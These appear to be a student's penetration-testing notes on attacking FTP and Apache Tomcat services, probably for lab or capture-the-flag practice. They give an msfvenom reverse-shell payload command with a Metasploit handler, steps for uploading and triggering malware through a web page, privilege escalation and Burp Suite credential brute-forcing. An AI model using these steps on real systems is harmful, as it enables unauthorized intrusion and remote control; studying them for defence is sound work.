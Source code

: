                 * FTP 
                    port 21 for FTP
                    all we can do is `put` (upload) or `get` (download) files with this and
                        we can't exicute any. But if we can `put` malware 
                        on the server then, if there is a webpage, we can 
                        use the webpage to exicute the malware
                    when moving around in FTP if a dir is denied access try
                        doing an absolute path deeper in the dir and it might
                        let you in. Try to find log files or creds to use
                        with other exploits.
                    port 80/443 showing `IIS` is default webpage
                    `dirbuster` to brute for dirs on the webpage
                        File extension: asm,asmx,asp,aspx,txt,zip,bak,rar,sql
                    `ftp <rhost>`
                    `anonymous` or don't enter anything for user
                    `help`      for commands when connected by ftp
                    `put <file>`        to transfer a file to the box
                        this is useful to get malware on a box but you need
                        someone to run it or you need an account to run it
                        yourself. Maybe use this on an unsecured server and
                        have it as instructions
                    `msfvenom` to make malware and then set up a handler on 
                        metasploit
                        `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f aspx > ex.aspx`
                        in metasploit `use exploit/multi/handler`
                        `set payload windows/meterpreter/reverse_tcp` this
                            payload must match the one in your malware
                    transfer the malware to the box with `put`. if there is
                        an issue then use the command `binary` to switch from
                        ASCII to binary and use `put` again
                    run the malware via browser. `<ip address>/malwareName`.
                        when the browser calls the file it will run on the
                        box and you get a call back in metasploit
                    if no root user we need to escalate.
                        in meterater `bg` the session and use
                        `multi/recon/local_exploit_suggester` and run 
                        at your session. This will scan to see if any of the
                        modules can escalate privileges on this box.
                    * be sure to use different LPORTs for EACH session!
                * `default web page` Apache Tomcat/7.0.88
                    get default creds from the webs
                    use `burpSuite` with intercept on try to login with 
                        a set of creds
                    look for the username and password you entered in the
                        packets. If you find `Authorization Basic <some code>`
                        highlight it and right click > send to decoder. Then
                        you can try to decode it with a few types. An ending
                        in `==` means Base64. Then you can send to intruder and
                        repeater to brute force with a list
                    to make a username and password list for burpsuite, it
                        needs to be in format `username:password`
                    if you needed to convert these to Base64 you could run:
                    `for cred in $(cat <list>); do echo -n $cred | base64; done`
                    copy the Base64 usernames and passwords.
                        In BurpSuite > Intruder > highlight the base64 part of the
                        Authorization: Basic > Add. this will be what we will
                        replace. use Sniper. Payloads > paste. Uncheck URL-encode
                        these charaters. Start Attack > look for a code other than
                        `401`. Then highlight the Base64 > send to Decoder and turn
                        back into ASCII and use that to log in!!!
                    Tomcat uses WAR files so we can add malware as a WAR file
                        so use `msfvenom` to make a WAR malware to make a WAR
                        malware
                        use either metasploit or nc to catch the callback: